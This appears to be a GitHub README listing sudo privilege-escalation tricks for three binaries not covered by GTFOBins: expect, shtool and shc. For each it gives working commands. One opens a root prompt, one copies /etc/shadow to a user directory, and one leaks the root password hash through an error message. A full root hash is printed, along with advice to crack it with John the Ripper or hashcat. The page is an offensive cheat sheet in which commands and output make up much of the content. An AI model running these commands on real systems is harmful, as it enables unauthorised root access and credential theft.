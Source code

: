 This document contains a list of binaries that have sudo permissions but are not found on GTFOBins for privilege escalation. While GTFOBins provides a well-documented collection of sudo-exploitable binaries, new or lesser-known binaries with potential privilege escalation (PrivEsc) capabilities may not yet be listed.
## `expect` - Sudo Privilege Escalation

### **Description**
`expect` is an automation tool that interacts with applications requiring user input. If granted **sudo permissions**, it can be exploited to execute arbitrary commands as root.

### **Exploitation**
If `expect` is allowed with `sudo`, you can escalate privileges using the following:

```sh
sudo /usr/bin/expect
expect1.1> whoami
root
## `shtool` - Sudo Privilege Escalation  

### **Description**  
`shtool` is a script utility tool commonly used for installation tasks. If granted **sudo permissions**, it can be abused to copy sensitive system files (e.g., `/etc/shadow`) to a location accessible by a lower-privileged user, enabling privilege escalation.  

### **Exploitation**  
If `shtool` is available with `sudo`, you can copy `/etc/shadow` to a user-accessible directory and attempt **password cracking** to escalate privileges.  

```sh
sudo shtool install -c /etc/shadow /home/user/shadow
Now, verify the copied file:
ls
shadow
cat shadow
This will reveal hashed passwords, which can be cracked using tools like John the Ripper or hashcat.
## `shc` - Sudo Privilege Escalation  

### **Description**  
`shc` (Shell Script Compiler) is used to compile shell scripts into binary executables. If it has **sudo permissions**, it can be exploited to reveal the **root password hash** from `/etc/shadow`.  

### **Exploitation**  
When `shc` is executed on `/etc/shadow` with `sudo`, it tries to interpret it as a script. Since the **first line of `/etc/shadow` contains the root user hash**, `shc` fails and **displays the root password hash by default**.  

#### **Command:**  
```sh
sudo /usr/bin/shc -f /etc/shadow -o /etc/shadow
shc: invalid first line in script: root:$6$lYoxb/H/0LQ5d50Q$mM2ej4Um6zmkg11uszJrBpZo/vI4TT6nEvQnlnI/GlB9otfNIyN9xXfATAxVAUzj4ojTE1pmFbY12NUzw2j/b0:18313:0:99999:7:::
Here, the root password hash is exposed, allowing an attacker to extract and crack it using tools like John the Ripper or hashcat.

